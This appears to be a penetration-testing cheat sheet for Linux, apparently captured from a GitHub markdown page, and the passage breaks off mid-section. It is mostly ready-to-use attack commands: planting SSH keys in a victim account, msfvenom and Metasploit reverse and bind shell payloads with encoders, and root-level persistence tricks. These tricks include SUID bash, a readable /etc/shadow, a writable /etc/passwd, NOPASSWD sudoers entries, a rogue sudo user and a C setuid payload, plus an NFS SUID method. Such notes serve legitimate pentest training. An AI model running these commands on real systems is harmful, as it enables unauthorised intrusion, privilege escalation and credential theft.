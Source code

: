 - `ssh-keygen -t ed25519 -f [KEY_FILE]`
- Paste Your Public Key  -> `/home/[VICTIM_USER]/.ssh/authorized_keys`
- Set Permission             -> `chmod 600 [KEY_FILE]`
- Login                              -> `ssh -i [KEY_FILE] [USER]@[IP]`

### MSFVenom

- Executable Upload
  - `metash()`
    - ELF              → `chmod +x [FILE]`
    - ELF-SO        → SO Hijacking
  - PHP             → `-p php/meterpreter/reverse_tcp -f raw`
  - WAR / JSP   → `-p java/shell_reverse_tcp -f war`
- Buffer Overflow (BOF) Shellcode
  - `msfvenom -a [x86/x64] -p [SHELL_TYPE] -f [python/c] -b [BAD_CHARS] -e [ENCODER] -i 3 --smallest` 
  - Encoders         → `x86/shikata_ga_nai` / `x86/unicode_m`
  - Extra Options → `BufferRegister=EAX` / `Exitfunc=thread`

### Metasploit

- Staged (more stable):   

  `set payload linux/[x86/X64]/shell/[BIND/REVERSE]_tcp`

- Stageless (stelthier): 

  `set payload linux/[x86/X64]/shell_[BIND/REVERSE]_tcp`

### Offline bash Payloads 

~when you have RCE on a root process

- Make bash a SUID
  `chmod u+s /bin/bash` → `/bin/bash -p`

- Make a general binary from [GTFOBin](https://gtfobins.github.io/) a SUID (if bash is not available):
  `chmod u+s [GTFO_BINARY]` -> Exploit following GTFObin

- Make the shadow hashes readable:
  `chmod u+r /etc/shadow`  → Hash Cracking
- Make `/etc/passwd` writable:
  `chmod u+w /etc/passwd`  → Remove `x` from root → `su - root`
- Give to a User that you can control `sudo su` privileges
  `echo "[USER] ALL=(ALL) NOPASSWD: ALL" | tee /etc/sudoers.d/[USER]` 
- Create User with sudo priviledges  -> you can execute sudo without password
  ```bash
  usermod [USER] --password $(echo [PASS] | openssl passwd -1 -stdin)
  usermod -aG sudo [USER]
  ```
- C Payload
  ```c
    #include <stdio.h>
	#include <stdlib.h>
	#include <sys/types.h>
	#include <unistd.h>
	void main(){ setuid(0); setgid(0); system("chmod u+s /usr/bin/bash"); }
	
	```

### Shared Folders (NFS, Docker..)

- **SUID bin:**

  1. Transfer /bin/bash (or another binary) on the shared folder (preferibly from the Host, if possible, to avoid compatibility issues)
  2. From Kali, make it a SUID `chmod u+s /bash`
  ```